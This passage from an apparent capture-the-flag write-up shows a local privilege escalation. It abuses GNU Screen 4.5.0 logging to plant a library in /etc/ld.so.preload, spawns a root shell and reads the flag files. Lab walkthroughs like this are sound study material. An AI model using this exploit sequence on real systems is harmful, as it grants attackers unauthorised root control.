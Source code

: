 ```
$ cd /etc
$ umask 000
$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ /bin/screen-4.5.0 -ls
[+] done!
No Sockets found in /tmp/screens/S-www-data.

$ /tmp/rootshell
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
```

Now that I'm root I can grab both flags at the same time.

```
cat /root/root.txt
1fdbcf8c...

cat /home/shelby/user.txt
fe619454...
```